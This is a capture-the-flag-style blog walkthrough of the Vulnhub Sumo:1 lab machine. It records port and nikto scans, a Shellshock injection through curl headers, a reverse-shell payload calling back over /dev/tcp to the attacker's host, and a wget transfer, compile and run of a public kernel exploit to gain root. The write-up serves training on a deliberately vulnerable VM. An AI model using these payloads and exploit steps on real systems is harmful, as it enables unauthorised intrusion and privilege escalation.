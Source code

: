 ```yaml
---
date: 2020-06-17 00:36:33
layout: post
title: "Sumo Vulnhub Walkthrough"
subtitle:
description: Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners.
image: /assets/img/uploads/sumo/sumo-optimized.png
optimized_image: /assets/img/uploads/sumo/sumo-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: sumo, sumo 1 vulnhub, vulnhub, sumo vulnhub walkthrough, sumo vulnhub writeup, vulnhub sumo, infosec articles, sumo vulnhub writeup
---
```


Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners. This includes exploiting a shellshock vulnerability to get a reverse shell and then exploiting the old version kernel used by the VM to get root. I've added the IP to my hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.16    sumo.local
```

## Initial Enumeration and User Shell

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/sumo sumo.local

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 13:06 IST
Nmap scan report for sumo.local (192.168.1.16)
Host is up (0.00060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:97:C2:5C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds
```

We have a port 80 open which displays a default web server page that says "It Works!"

<img src="/assets/img/uploads/sumo/port80.png">

<p align="justify">
Next I ran a gobuster scan to look for hidden directories, but didn't find anything interesting there. Then I performed a nikto scan to search for some web based vulnerabilities and found that this web server is vulnerable to <b>shellshock vulnerability.</b> </p>

```r
root@kali:~# nikto -h sumo.local
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.16
+ Target Hostname:    sumo.local
+ Target Port:        80
+ Start Time:         2020-06-16 13:11:34 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 23:25:10 2020
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3092: /cgi-bin/test/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8595 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2020-06-16 13:12:15 (GMT5.5) (41 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
If you don't know about shellshock vulnerability, I recommend reading about it <a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)">here.</a> I tested the vulnerability by running the <b>id</b> command.
```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://sumo.local/cgi-bin/test/test.cgi  

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Excellent, We were able to exploit this vulnerability. Now I executed a payload to open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.6/9001 0>&1' http://sumo.local/cgi-bin/test/test.cgi  
```
I opened a netcat listener on the other terminal and we got the reverse shell.

```r
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.16] 60230
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root Shell
<p align="justify">
Getting root on this machine was quite easy and straightforward. This machine is using an old version of kernel. There are many exploits available to escalate the privileges. One of the most famous is Dirty Cow but I won't be using it here.
</p>

```r
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

Instead I used <a href="https://www.exploit-db.com/exploits/33589"> this exploit</a> from exploitdb. I downloaded this exploit on my host machine and started a python http server and transferred it to the target machine in the tmp directory.

```r
www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp
cd /tmp

www-data@ubuntu:/tmp$ wget http://192.168.1.6:8000/33589.c
wget http://192.168.1.6:8000/33589.c     
--2020-06-16 03:50:50--  http://192.168.1.6:8000/33589.c
Connecting to 192.168.1.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3664 (3.6K) [text/plain]         
Saving to: `33589.c'                     

     0K ...         100%  242M=0s
2020-06-16 03:50:50 (242 MB/s) - `33589.c' saved [3664/3664]
```
Then I tried to compile the exploit but it gave an error. This error can be fixed by updating the path variables using the following command:

```r
www-data@ubuntu:/tmp$ PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH   
```

This time the exploit compiled without any errors, I gave the exploit executable permissions and after running the exploit, we were root!  

```r
www-data@ubuntu:/tmp$ gcc 33589.c -O2 -o exploit
gcc 33589.c -O2 -o exploit

www-data@ubuntu:/tmp$ chmod 777 exploit && ./exploit 0
chmod 777 exploit && ./exploit 0

stdin: is not a tty
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("/bin/bash")'

root@ubuntu:/tmp# cat /root/root.txt
cat /root/root.txt
{Sum0-SunCSR-2020_r001}
```
<p align="justify"> That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> </p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/MarkusM">Markus Magnusson.</a>